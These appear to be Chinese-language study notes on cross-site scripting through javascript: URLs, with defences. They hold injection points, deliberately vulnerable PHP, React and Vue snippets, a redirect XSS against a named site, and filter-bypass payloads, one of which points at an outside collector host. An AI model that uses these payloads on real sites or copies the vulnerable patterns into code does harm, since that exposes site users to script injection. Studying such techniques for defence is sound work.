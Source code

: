 ### where
1. href:  `<a href=javascript:alert(1)>Link</a>`  
2. iframe: `<iframe src=javascript:alert(1)></iframe>` 
3. form的action
```html
<form action=javascript:alert(1)>  
<button>submit</button>  
</form>
```
5. button的formaction
```html
<form id=f2>  
</form>  
<button form=f2 formaction=javascript:alert(2)>submit</button>
```
6. windows.location 
```html
window.location = 'javascript:alert(1)'
```

#### 例子1:插入youtube视频
如果網站上有個功能可以讓使用者在發文時填入 YouTube 影片網址，並且在文章中自動嵌入
```html
<iframe src="<?= $youtube_url ?>" width="500" height="300">
</iframe>
```
1. `javascript:alert(1);`
2. 绕过对youtube.com的检查：`javascript:alert(1);console.log('youtube.com')`
3. 防御：正確方式是檢查網址是否為 YouTube 影片的格式，並且要確保網址是以 `https://` 開頭

#### 例子2:profile 頁面填入自己的 blog  

![](media/Pasted%20image%2020231025155828.png)  

后端代码
```php
<a href="<?php echo htmlspecialchars($data) ?>">link</a>`
```
儘管把 `<>";` 都做了編碼，沒辦法新增標籤，也沒辦法跳脫雙引號新增屬性，但攻擊者依舊可以插入 `javascript:alert(1)`，因為這裡面完全沒有任何不合法的字元。

#### 例3：
`<a href="<?php echo htmlspecialchars($data) ?>">link</a>`

payload:
`data=javascript:alert(1)`
![](media/Pasted%20image%2020231103103012.png)  

#### React
現在的前端框架基本上都會自動幫你做好跳脫，沒有在 React 裡面使用 `dangerouslySetInnerHTML` 或是在 Vue 裡面使用 `v-html` 的話，基本上都是沒什麼問題的，但是 `href` 就不同了，理由同上，它的內容是沒問題的。

```react
import React from 'react';

export function App(props) {
  // 假設底下的資料是來自於使用者
  const href = 'javascript:alert(1)'
  return (
    <a href={href}>click me</a>
  );
}
```
\ React 在 v16.9 的時候有針對這個行為新增警告，在文件裡面也有說明：[Deprecating javascript: URLs](https://legacy.reactjs.org/blog/2019/08/08/react-v16.9.0.html#deprecating-javascript-urls)，警告的內容是：

> Warning: A future version of React will block javascript: URLs as a security precaution. Use event handlers instead if you can. If you need to generate unsafe HTML try using dangerouslySetInnerHTML instead.

在 React GitHub 的 issue 裡面也有更多的討論：

1. [React@16.9 block javascript:void(0); #16592](https://github.com/facebook/react/issues/16592)
2. [False-positive security precaution warning (javascript: URLs) #16382](https://github.com/facebook/react/issues/16382)
#### Vue
```vue
<script setup>
import { ref } from 'vue'

const link = ref('javascript:alert(1)')
</script>

<template>
  <a :href="link">click me</a>
</template>
```
 [URL Injection](https://vuejs.org/guide/best-practices/security.html#potential-dangers)
 
如果要在前端處理的話，有提到可以用 [sanitize-url](https://github.com/braintree/sanitize-url) 這一套 library。

<html>
<img src=x onerror="javascript:alert(/xss/)">
</html>

### 页面跳转
```html
const searchParams = new URLSearchParams(location.search)
window.location = searchParams.get('redirect')
```
payload:
```
window.location = 'javascript:alert(document.domain)'
```

#### 例子：
![](media/Pasted%20image%2020231025161411.png)
点击登录后会调用`redirectToTarget` 的 function：
```Javascript
/**
 * Redirect to "?target=" or fallback URL with page reload.
 *
 * (works on CSR)
 */
export const redirectToTarget = ({
  fallback = 'current',
}: {
  fallback?: 'homepage' | 'current'
} = {}) => {
  const fallbackTarget =
    fallback === 'homepage'
      ? `/` // FIXME: to purge cache
      : window.location.href
  const target = getTarget() || fallbackTarget

  window.location.href = decodeURIComponent(target)
}
```
在拿到 target 之後直接使用了：`window.location.href = decodeURIComponent(target)` 來做重新導向。而 `getTarget` 其實就是去 query string 把 target 的值拿出來。所以如果登入的網址是：`https://matters.news/login?target=javascript:alert(1)`，在使用者按下登入並且成功之後，就會跳出一個 alert，觸發 XSS！
### `javascript`过滤
HTML 裡面的屬性內容是可以經過編碼的
`<a href="&#106avascript&colon;alert(1)">click me</a>`
`<a href=&#74;&#97;&#118;&#97;&#83;&#99;&#114;&#105;&#112;&#116;:alert(1)>clickme</a>`

### `http://`验证
`javascript:alert(http://)`

```javascript
javascript:alert@github.com/#://

编码：
javascript:alert%28%27Slonser%20was%20here%21%27%29%3B%2F%2F@github.com#;alert(10);://eow5kas78d0wlv0.m.pipedream.net%27
```
[tg xss](https://habr.com/ru/articles/744316/)
### 防御
1. 使用[sanitize-url](https://github.com/braintree/sanitize-url)
2. 只允許 `http://` 跟 `https://` 開頭的字串
3. 利用 JavaScript 去解析 URL,根据 protocol 判斷是否為合法的協議，來阻擋名單之外的內容
```javascript
console.log(new URL('javascript:alert(1)'))
/*
  {
    // ...
    href: "javascript:alert(1)",
    origin: "null",
    pathname: "alert(1)",
    protocol: "javascript:",
  }
*/
```
4. `target="_blank"`   在Chrome 当你点了连结时，会新开一个网址为的`about:blank#blocked`分页，在Firefox 会新开一个没有网址的分页，在Safari 则是什么事情都不会发生，在这三个桌面浏览器上都不会执行JavaScript。
5. [正则表达过滤](https://github.com/facebook/react/blob/v18.2.0/packages/react-dom/src/shared/sanitizeURL.js#L22)


### 补充
而有个常见的错误判断方式一样会利用URL 来解析，但却是看hostname 或是origin 等等：
```javascript
console.log(new URL('javascript:alert(1)'))
/* 
	{ 
		// ... 
		hostname: "", 
		host: "", 
		origin: null 
		} 
	*/
```

当`hostname`或是`host`为空的时候，就代表是不合法的网址。这样的方式虽然乍看之下没问题，但我们可以利用`//`在JavaScript 中是注解的特性，搭配换行字元来做出一个看起来像网址，但其实是javascript: 伪协议的字串：
```javascript
console.log(new URL('javascript://huli.tw/%0aalert(1)')) 
/* 
	{ 
		// ... 
		hostname: "", 
		host: "", 
		origin: null 
		} 
	*/
```
虽然看起来很像网址，但是在Chrome 上面没有问题，不会误判，可是Safari 就不同了，同样的程式码在Safari 16.3 上面执行，输出结果是：

```js
console.log(new URL('javascript://huli.tw/%0aalert(1)'))
/*
  {
    // ...
    hostname: "huli.tw",
    host: "huli.tw",
    origin: "null"
  }
*/
```


### 链接

[The curious case of XSS and the mouse middle button.](http://blog.dclabs.com.br/2021/05/the-curious-case-of-xss-and-mouse.html)
[Anchor Tag XSS Exploitation in Firefox with Target=”_blank”](https://soroush.me/blog/2023/08/anchor-tag-xss-exploitation-in-firefox-with-target_blank/)